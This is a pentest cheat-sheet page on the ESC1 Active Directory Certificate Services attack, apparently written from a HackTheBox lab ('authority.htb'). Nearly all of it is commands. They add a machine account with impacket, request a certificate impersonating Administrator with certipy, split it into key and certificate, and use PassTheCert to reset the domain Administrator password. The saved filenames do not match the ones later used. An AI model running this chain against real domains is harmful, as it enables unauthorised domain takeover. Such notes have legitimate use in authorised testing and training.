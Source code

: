 # ESC1

{% hint style="info" %}
You have enroll permission
{% endhint %}

{% tabs %}
{% tab title="Linux" %}
Create a new computer inside the domain

{% code overflow="wrap" %}
```
impacket-addcomputer  <DOMAIN>/<USER>:'<PASS>' -computer-name testComputer2$ -computer-pass TestPassword321
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/Pasted image 20230719143908.png" alt=""><figcaption></figcaption></figure>

Check if has been created

```bash
crackmapexec smb <IP> -u 'testComputer2$' -p 'TestPassword321' -d <DOMAIN>
```

<figure><img src="../../../../.gitbook/assets/Pasted image 20230719150304.png" alt=""><figcaption></figcaption></figure>

We are generating a certificate for the newly created account

```bash
certipy req -u 'testComputer2$' -p 'TestPassword321' -dc-ip IP_DC_HERE -ca AUTHORITY-CA -template '<TEMPLATE>' -upn 'Administrator'
```

<figure><img src="../../../../.gitbook/assets/Pasted image 20230719150515.png" alt=""><figcaption></figcaption></figure>

Now divide the certificate in crt and key

```bash
certipy cert -pfx administrator.pfx -nokey -out user.crt
certipy cert -pfx administrator.pfx -nocert -out user.key
```

Now use [PassTheCert](https://github.com/AlmondOffSec/PassTheCert) to abuse the certificate and set a new password for the account

```bash
python3 passthecert.py -action modify_user -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip IP_DC_HERE -target administrator -new-pass
```
{% endtab %}

{% tab title="Windows" %}
//TODO
{% endtab %}
{% endtabs %}

